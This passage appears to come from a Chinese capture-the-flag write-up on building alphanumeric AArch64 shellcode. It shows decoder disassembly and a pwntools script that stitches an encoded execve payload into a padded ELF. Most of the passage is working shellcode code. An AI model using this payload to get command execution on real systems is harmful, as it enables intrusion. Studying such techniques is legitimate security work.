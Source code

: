 ```python
  3c:   4a325272        eon     w18, w19, w18, lsl #20
  40:   72304f39        ands    w25, w25, #0xffff000f
  44:   4a724339        eon     w25, w25, w18, lsr #16
  48:   38334979        strb    w25, [x11, w19, uxtw]
  4c:   3130696b        adds    w11, w11, #0xc1a
  50:   7130656b        subs    w11, w11, #0xc19
  54:   31306842        adds    w2, w2, #0xc1a
  58:   71306442        subs    w2, w2, #0xc19
  5c:   36487a73        tbz     w19, #9, 0xfa8
```

## 缝合

最后就是将解码器和编码后的shellcode拼起来，并且首先要补充好978的BBBB的长度，另外全部的编码shellcode需要填充大一点，这里填到了0x3000，才能正常运行，否则shellcode会使用未被映射的地址空间导致错误，本题中给了0x4000，空间足够。

```python
from pwn import *
context(arch='aarch64',os='linux')
shellcode = b'''
jiL0JaBqJe4qKbL0kaBqkM91k121sBSjsBSjb2Sj
b8Y7R1A9Y5A9Jm01Je0qrR2J9O0r9CrJyI38ki01
ke0qBh01Bd0qszH6PPBPJHMBAOPPPPIAAKPPPPID
PPPPPPADPPALPPECPBBPJAMBPAPCHPMBPABPJAOB
BAPPDPOIJAOOBOCGPAALPPECAOBHPPGADAPPPPOI
FAPPPPEDJPPAHPEBOGOOOOAGLPPCEOMFOMGKKNJI
OMPCPPIAOCPKPPOIOCPCPPJJFPPBDPCIHPPPPPCD
GCPFPPIANLOOOOIGOLOOOOAGOCPKDPOIOMGKLBJH
LPPCEOMFOMGKKOJIPPPMHPEBOMPCPPIANDOOOOIG
JPPLHPEBNBOOOOIGHPPMHPEBNPOOOOIGHPPMHPEB
MNOOOOIGNPPMHPEBMLOOOOIGHPPEHPEBMJOOOOIG
PPPDHPEBMHOOOOIGNPPNHPEBMFOOOOIGNPPMHPEB
MDOOOOIGDPPNHPEBMBOOOOIGHPPMHPEBMPOOOOIG
HPPLHPEBLNOOOOIGBPPDHPEBLLOOOOIGDPPAHPEB
LJOOOOIGPPPPHPEBOMGKLAJHLPPCEOMF
'''

execve = b'NNDEHLMBBNLMJMOBNNNELEOBNNFENNOBPOPMHPMBNNCOKOJINPPCPPIANAPCAOJJNBPCAOJJJHAKHPMBPAPPPPMD'
execve = execve.ljust(978*4,b'B')

shellcode = shellcode.replace(b'\n',b'')
shellcode = shellcode[:-496]
shellcode += execve
shellcode += b'Z3Zj'*77
shellcode += b'szO6'
shellcode = shellcode.ljust(0x3000,b'B')

f = open("shellcode",'wb')
f.write(make_elf(shellcode))
f.close() 

f = open("shellcode.txt",'wb')
f.write(shellcode)
f.close() 
```

